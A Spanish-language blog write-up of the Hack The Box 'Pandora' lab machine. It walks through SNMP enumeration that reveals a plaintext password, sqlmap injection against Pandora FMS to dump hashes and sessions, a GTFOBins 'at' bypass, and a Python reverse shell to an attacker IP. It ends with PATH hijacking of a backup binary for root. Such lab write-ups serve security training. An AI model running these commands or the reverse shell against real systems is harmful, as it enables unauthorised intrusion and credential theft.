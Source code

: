 ```yaml
---
layout: post
author: Sergio Salgado
---
```

# [](#header-1)Pandora HtB

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
Esta maquina es una de las faciles de HtB, su sistema operativo es Ubuntu linux. E intentaremos llegar a las flags de la maquina.

- <a href="#desarrollo">Desarrollo</a>
Despues del primer escaneo, ingresamos al servicio web y mientras navegamos no encontramos nada importante. Pero si descubrimos un dominio, el cuel integraremos en nuestro archivo /etc/hosts. Para posteriormente, realizar otro escaneo dirigido al dominio.

![Nmap segundo scanning](/assets/images/pandora/nmap2PANDA.png)

Podemos observar que la maquina corre un servicio de snmpv1, el cual es usado para la administracion y monitoreo de la red. Y hasta la version 2 se mandan mensajes en texto limpio. Solamente la version 3 que es el mas reciente cuenta con encriptacion y autenticacion. SNMP almacena informacion en una estructura llamada MIB (Management Information Base). Esta es una estructura relacional que considera que informacion puede ser leida, escrita y accesible. Este utiliza identificadores OIDs. Pero esto nos es tan importante, solo es la informacion basica.

Para sacar informacion de la maquina que corre este servicio, la peticion se manda con un metodo GET a la maquina, con unstring para autentificarse el mismo. SNMP usa 2 strings diferentes llamados strings comunitarios, para autenticacion con maquinas. El string de solo lecturaes usualmente solo para informacion para lectura unicamente, y el atributo de lectura y escritura, son permisos para modificar alguna informacion. Lo importante de estos strings comunitarios, es que no pasan por ninguna encriptacion en hashes, son atomicos y faciles de crackear. Se utilizo esta <a href="https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt">lista</a> para encontrar los strings comunitarios de la maquina.

Intentaremos usar diferentes herramientas para descubrir informacion sobre este servicio encontrado 
Con el modulo scanner/snmp/snmp_login de msfconsole, encontramos la version del sistema operativo y del servicio snmp
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP y un community string que generalmente se usa llamado “public” 

Nos instalamos la herramienta
```sc
sudo apt-get install snmp-mibs-downloader
download-mibs
```

Ya que conocemos un string usado, podemos proceder a usarlo para acceder a los datos transmitidos con el comando:

```sc
snmpwalk -v 1 -c public panda.htb
```
![Primer scan con snmpwalk](/assets/images/pandora/snmpwalk1.png)
La herramienta anterior es un poco lenta y agresiva, para hacerlo mas rapido, podemos usar otra herramienta, que su sintaxis es:

```sc
braa public@10.10.11.136:.1.3.6.*
```
![Braa](/assets/images/pandora/braa.png)

Encontramos 3 palabras clave, las cuales pueden ser
- Email addresses
- SNMP community strings
- Password hashes
- Clear text passwords


Después con la herramienta snmpenum, seguiremos recopilando informacion de la maquina

```sc
snmpenum 10.10.11.136 public linux.txt
snmpwalk -c public -v2c -On 10.10.11.136

```
Despues de encontrar los strings comunitarios, se uso una herramienta llamada snmpwalk para enumerar toda la informacion que se pudo. 

```sc
snmpwalk -v 1 -c public panda.htb > snmpwalk-1.txt
```
![Segundo scan con snmpwalk](/assets/images/pandora/snmpwalk_pass.png)

Como podemos ver, se ha encontrado en texto plano un usuario y contrasena, asi que la usaremos para loggearnos por SSH en la maquina.

La flag de usuario esta en otro directorio de usuario, asi que buscaremos la manera de cambiar de usuario. El primer objetivo es **/var/www/html** y **/var/www/pandora**. El lado de html es visible para el publico, pero pandora es nuevo. Dentro del archivo /etc/hosts vemos unas asignaciones, asi que las usaremos como ventaja.

Si asumimos que estos hostnames entraran en el directorio de pandora, entonces necesitaremos establecer un tunel dinamico. Esto se puede hacer con:
```sc
ssh -D 9090 daniel@panda.htb
```

Usando este tunel, podemos ahora configurar un proxy para ver la pagina web.
Nota Estos deben ser SOCKS5 ya que este soporta resolucion de DNS.

![Configuracion de Proxy](/assets/images/pandora/proxy_config.png)

![Prueba del proxy](/assets/images/pandora/proxy_working.png)

Navegaremos a localhost.localdomain/pandora_console y nos mostrara una pagina para logearnos para algun software llamado pandora FMS. Para nustra suerte, existen muchos CVEs para este software, y este <a href="https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/">post</a> especificamente nos muestra que los parametros **chart_generator.php** files **session_id** son vulnerables. Para usar sqlmap para esto, necesitaremos antes una gran herramienta llamada proxychains. Proxichains esta disenada para hacer una cadena de proxies que te permiten usar tus herramientas en otras maquinas sin tener que instalarlas en el otro lado. Para usarlo necesitas especificar el tunel dinamico en el archivo /etc/proxychains4.conf

```sc
socks5 127.0.0.1 9090 daniel HotelBabylon23
```
![Proxychain config file](/assets/images/pandora/proxychain_conf.png)

Despues de configurarlo podemos ejecutar el ataque sqli contra el archivo generador de caracteres. 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D pandora --tables
``` 
![Sqlmaping with proxychain](/assets/images/pandora/sqlmap_pass.png)

La tabla en la que estamos interesados es **tpassword_history**. Despues de llegar a ella, obtenemos unas contrasenas con hashes para daniel y matt. Al ver los hashes, se puede ver que pueden ser MD5, o podemos utilizar la <a href="https://hashes.com/es/tools/hash_identifier">herramienta</a> para identificar que tipo de hashes se utilizaron.

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttpassword_history --dump
``` 

Tambien en los id de sesiones de php que estan guardados en la tabla **tsessions_php** 

```sc
proxychains sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -Ttsessions_php --dump
``` 

![Php sessions con sqlmap](/assets/images/pandora/php_sessions.png)

Ahora podemos copiar una de las sesiones de matt en el url y ver si funciona.

Y como lo mencionamos, esto nos trae al dashboard. Desafortunadamente a pesar de esto , no se pudo establecer una shell mediante alguna injeccion de sql o algo visible. Pero utilizando esta <a href="https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py">herramienta</a>, pudimos entrar como matt y leer la primer flag en /home/matt/user.txt.

```sc
proxychains python3 [pythontool].py -t localhost.localdomain
``` 

![Admin cookie](/assets/images/pandora/admin_cookie.png)


Hasta este punto, nos damos cuenta de que estamos en un ambiente restringido, ya que el comando sudo nos arrojo una respuesta extrana que se ha visto en otras maquinas. Asi que para seguir con esto hay que revisar los binarios para suid bits, y ahi encontraremos en **/usr/bin/at** cosas de sudo. Una vez con esto, podemos usar <a href="https://gtfobins.github.io/gtfobins/at/#sudo">el script de gtfobins</a> y nos permitira movernos a travez de la restriccion y asi poder navegar con una shell con privilegios elevados.

Para poder ejecutar comandos con sudo, sin restricciones:

```sc
echo "/usr/bin/at <$(tty) >$(tty) 2>$(tty)" | sudo at now; [COMMAND]
``` 
Para tener una shell mas bonita, sumamos el script anterior y le adjuntamos el reverse shell de python, usamos el reverse shell hecho en python

```py
 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.230",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
``` 
Del lado de kali, ejecutamos el netcat:

```sc
nc -lvp 4444
``` 
Cuando estaba intentando quitarme la restriccion , encontre un binario en /usr/bin llamado pandora_backup. Lo descargue a mi maquina e hice unas pruebas y al parecer utiliza el comando tar para comprimir archivos. Asi que cree un archivo tar malicioso y lo ejecute para ganar el privilegio de root.

Una vez dentro del usuario, proseguiremos a usar el id de rsa de ssh, el cual se encuentra normalmente en /home/usr/.ssh/ 

Notaremos que la llave no existe en este caso, asi que la generaremos con el comando:

``` 
ssh-keygen
``` 

Una vez usado este comando, podremos seguir con el siguiente paso, que es copiar el id_rsa a la maquina kali y usar la llave para que el servicio de ssh no nos pida alguna contraseña al pedir la conexion.
Le damos un 

``` 
cat id_rsa
``` 

para leer la llave privada, la copiamos y la pegamos en un archivo con nombre igual dentro de nuestro directorio de Pandora. Con un: 

``` 
nano id_rsa 
``` 

generaremos el archivo, copiaremos la llave privada y despues le cambiaremos los permisos con un:

```  
cat id_rsa >> authorized_keys
chmod 600 authorized_keys
``` 

del lado de la maquina de matt

Despues, para ganarnos el root nombraremos a un archivo tar, le asignamos permisos de ejecusion con 

``` 
nano /tmp/tar
#dentro del archivo tar, escribiremos
/usr/bin/sh
chmod +x /tmp/tar
``` 

![New Tar](/assets/images/pandora/abrir_shell_tar.png)
le agregaremos que nos ejecute /usr/bin/sh para ejecutar una terminal.

Ahora, para que la maquina al buscar comandos rapidos, empiece por nuestra ruta, usaremos el comando 
```
echo $PATH 
#nos muestra el path donde nos encontramos
```
```
export PATH=/tmp:$PATH 
#para que empiece a buscar a partir del path que estamos usando
```
Y ahora si estamos listos para ejecutar el comando de `backup_pandora` y automaticamente tener la shell mediante el path hijacking.

![New Tar](/assets/images/pandora/Pandora_final.png)